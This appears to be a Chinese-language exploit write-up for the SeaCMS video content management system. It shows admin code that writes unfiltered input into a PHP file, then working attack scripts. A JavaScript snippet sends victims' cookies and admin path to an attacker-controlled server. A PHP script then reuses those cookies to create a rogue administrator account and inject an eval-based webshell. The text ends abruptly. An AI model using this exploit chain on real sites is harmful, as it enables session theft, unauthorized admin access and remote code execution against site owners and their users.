


seacms getshell
===============

一、漏洞简介
------------

海洋cms是一款简单的php内容管理系统，主要用于视频网站，采用PHP+MYSQL架构，未使用框架

二、漏洞影响
------------

三、复现过程
------------

后台代码如下

    <?php

    header('Content-Type:text/html;charset=utf-8');

    require_once(dirname(__FILE__)."/config.php");

    CheckPurview();

    if($action=="set")

    {

        $v= $_POST['v'];

        $ip = $_POST['ip'];

        $open=fopen("../data/admin/ip.php","w" );

        $str='<?php ';

        $str.='$v = "';

        $str.="$v";

        $str.='"; ';

        $str.='$ip = "';

        $str.="$ip";

        $str.='"; ';

        $str.=" ?>";

        fwrite($open,$str);

        fclose($open);

        ShowMsg("成功保存设置!","admin_ip.php");

        exit;

    }

    ?>

这里根本没有经过过滤，直接将变量写进去，可以写一个脚本利用

代码如下

    # test.js

    var img = new Image();

    img.src=  "http://127.0.0.1/test.php?x=" + document.cookie + "&p=" + location.pathname;

    # test.php

    <?php

        function Requests($url, $data, $cookie = '', $type = 1){

            $ch = curl_init();

            $params[CURLOPT_URL] = $url;

               $params[CURLOPT_HEADER] = FALSE;

            $params[CURLOPT_SSL_VERIFYPEER] = false;

            $params[CURLOPT_SSL_VERIFYHOST] = false;

            $params[CURLOPT_RETURNTRANSFER] = true;

            if ($type === 1) {

                $params[CURLOPT_POST] = true;

                $params[CURLOPT_POSTFIELDS] = $data;

            }

            $params[CURLOPT_COOKIE] = $cookie;

            curl_setopt_array($ch, $params);

            $output = curl_exec($ch);

            file_put_contents('log.txt', $output, FILE_APPEND);

            curl_close($ch);

        }

        $C = $_GET['x'];

        $P = $_GET['p'];

        $P = substr($P, 0, strlen($P)-21);

        file_put_contents('c.txt', $C);

        file_put_contents('p.txt', $P);

        $url_1 = 'http://192.168.113.128'.$P.'admin_manager.php?action=add';

        $url_2 = 'http://192.168.113.128'.$P.'admin_ip.php?action=set';

        $data_1 = 'username=test&pwd=test&pwd2=test&groupid=1';

        $data_2 = 'v=0&ip=+";@eval($_POST[qwer]);"';

        Requests($url_1, $data_1, $C);

        Requests($url_2, $data_2, $C);

这两个脚本会将cookie和后台路径保存在文件中，并且会向后台发送数据，添加一个系统管理员，同时会在系统中写入一个一句话木马，需要注意的是修改域名为测试域名。测试如下

代码已经写进了后

管理员添加成功

\<
